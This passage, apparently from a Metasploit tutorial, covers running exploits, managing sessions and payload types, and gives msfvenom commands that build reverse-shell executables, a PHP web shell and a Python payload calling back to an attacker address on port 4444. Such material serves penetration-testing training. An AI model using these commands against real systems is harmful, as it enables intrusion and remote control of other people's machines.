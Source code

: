 ### Running Exploits
```bash
# Check if target is vulnerable
check

# Run the exploit
exploit
# or
run

# Run exploit in background
exploit -j

# Show active sessions
sessions -l
```

---

## Payloads and Payload Generation

### Understanding Payloads
- **Singles**: Self-contained, don't rely on external components
- **Stagers**: Small payloads that download larger payloads
- **Stages**: Downloaded by stagers for full functionality

### Common Payload Types
```bash
# Linux payloads
linux/x86/shell_reverse_tcp           # Simple shell
linux/x64/meterpreter/reverse_tcp     # Full Meterpreter
linux/x86/shell_bind_tcp              # Bind shell

# Windows payloads
windows/meterpreter/reverse_tcp       # Windows Meterpreter
windows/shell_reverse_tcp             # Simple Windows shell
windows/x64/shell_reverse_tcp         # 64-bit Windows shell
```

### Generating Standalone Payloads
```bash
# Generate ELF executable
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > shell.elf

# Generate Windows executable
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe

# Generate PHP web shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.php

# Generate Python payload
msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.py
```
